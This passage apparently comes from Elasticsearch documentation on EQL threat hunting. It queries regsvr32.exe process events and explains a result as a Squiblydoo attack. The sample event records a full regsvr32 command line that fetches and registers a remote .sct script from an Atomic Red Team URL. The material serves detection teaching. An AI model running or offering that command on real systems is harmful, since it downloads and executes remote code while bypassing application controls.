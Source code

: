 
## Check for command line artifacts [eql-ex-check-for-command-line-artifacts]

`regsvr32.exe` processes were associated with 143 events. But how was `regsvr32.exe` first called? And who called it? `regsvr32.exe` is a command-line utility. Narrow your results to processes where the command line was used:

```console
GET /my-data-stream/_eql/search
{
  "query": """
    process where process.name == "regsvr32.exe" and process.command_line.keyword != null
  """
}
```
% TEST[setup:atomic_red_regsvr32]

The query matches one event with an `event.type` of `creation`, indicating the start of a `regsvr32.exe` process. Based on the event’s `process.command_line` value, `regsvr32.exe` used `scrobj.dll` to register a script, `RegSvr32.sct`. This fits the behavior of a Squiblydoo attack.

```console-result
{
  ...
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "events": [
      {
        "_index": ".ds-my-data-stream-2099.12.07-000001",
        "_id": "gl5MJXMBMk1dGnErnBW8",
        "_source": {
          "process": {
            "parent": {
              "name": "cmd.exe",
              "entity_id": "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
              "executable": "C:\\Windows\\System32\\cmd.exe"
            },
            "name": "regsvr32.exe",
            "pid": 2012,
            "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
            "command_line": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
            "executable": "C:\\Windows\\System32\\regsvr32.exe",
            "ppid": 2652
          },
          "logon_id": 217055,
          "@timestamp": 131883573237130000,
          "event": {
            "category": "process",
            "type": "creation"
          },
          "user": {
            "full_name": "bob",
            "domain": "ART-DESKTOP",
            "id": "ART-DESKTOP\\bob"
          }
        }
      }
    ]
  }
}
```